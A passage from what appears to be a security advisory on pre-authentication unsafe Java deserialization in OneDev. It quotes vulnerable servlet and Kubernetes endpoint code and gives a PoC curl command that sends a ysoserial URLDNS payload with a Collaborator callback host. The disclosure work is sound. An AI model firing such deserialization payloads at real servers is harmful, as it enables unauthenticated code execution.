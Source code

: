   <span class="o">}</span>
</code></pre></div></div>

<p>This Servlet does not enforce any authentication or authorization checks.</p>

<h4 id="poc">PoC</h4>

<p>Use <a href="https://github.com/frohoff/ysoserial"><code class="language-plaintext highlighter-rouge">ysoserial</code></a> to generate a probe payload using the <code class="language-plaintext highlighter-rouge">URLDNS</code> gadget. This gadget will send a DNS request which we can intercept to prove the deserialization attack was successful.</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>curl -X POST http://localhost:6610/attachment_upload -H "File-Name: foo" -H "Attachment-Support: `java -jar /Users/pwntester/Dev/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://536mvpzmverok48wr06msp5du40uoj.burpcollaborator.net | base64`"
</code></pre></div></div>

<h4 id="impact">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>

<h3 id="issue-2-pre-auth-unsafe-deserialization-on-kubernetesresource">Issue 2: Pre-Auth Unsafe Deserialization on KubernetesResource</h3>

<p>A <a href="https://github.com/theonedev/onedev/blob/main/server-plugin/server-plugin-executor-kubernetes/src/main/java/io/onedev/server/plugin/executor/kubernetes/KubernetesResource.java"><code class="language-plaintext highlighter-rouge">Kubernetes REST endpoint</code></a> exposes two methods that deserialize untrusted data from the request body:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>	<span class="nd">@Path</span><span class="o">(</span><span class="s">"/allocate-job-caches"</span><span class="o">)</span>
	<span class="nd">@Consumes</span><span class="o">(</span><span class="nc">MediaType</span><span class="o">.</span><span class="na">APPLICATION_OCTET_STREAM</span><span class="o">)</span>
	<span class="nd">@Produces</span><span class="o">(</span><span class="nc">MediaType</span><span class="o">.</span><span class="na">APPLICATION_OCTET_STREAM</span><span class="o">)</span>
  <span class="nd">@POST</span>
  <span class="kd">public</span> <span class="kt">byte</span><span class="o">[]</span> <span class="nf">allocateJobCaches</span><span class="o">(</span><span class="kt">byte</span><span class="o">[]</span> <span class="n">cacheAllocationRequestBytes</span><span class="o">)</span> <span class="o">{</span>
	<span class="nc">CacheAllocationRequest</span> <span class="n">allocationRequest</span> <span class="o">=</span> <span class="o">(</span><span class="nc">CacheAllocationRequest</span><span class="o">)</span> <span class="nc">SerializationUtils</span><span class="o">.</span><span class="na">deserialize</span><span class="o">(</span><span class="n">cacheAllocationRequestBytes</span><span class="o">);</span>
</code></pre></div></div>

<p>and</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>	<span class="nd">@Path</span><span class="o">(</span><span class="s">"/report-job-caches"</span><span class="o">)</span>
	<span class="nd">@Consumes</span><span class="o">(</span><span class="nc">MediaType</span><span class="o">.</span><span class="na">APPLICATION_OCTET_STREAM</span><span class="o">)</span>
	<span class="nd">@POST</span>
	<span class="kd">public</span> <span class="kt">void</span> <span class="nf">reportJobCaches</span><span class="o">(</span><span class="kt">byte</span><span class="o">[]</span> <span class="n">cacheInstanceBytes</span><span class="o">)</span> <span class="o">{</span>
		<span class="nd">@SuppressWarnings</span><span class="o">(</span><span class="s">"unchecked"</span><span class="o">)</span>
		<span class="nc">Collection</span><span class="o">&lt;</span><span class="nc">CacheInstance</span><span class="o">&gt;</span> <span class="n">cacheInstances</span> <span class="o">=</span> <span class="o">(</span><span class="nc">Collection</span><span class="o">&lt;</span><span class="nc">CacheInstance</span><span class="o">&gt;)</span> <span class="nc">SerializationUtils</span>
				<span class="o">.</span><span class="na">deserialize</span><span class="o">(</span><span class="n">cacheInstanceBytes</span><span class="o">);</span>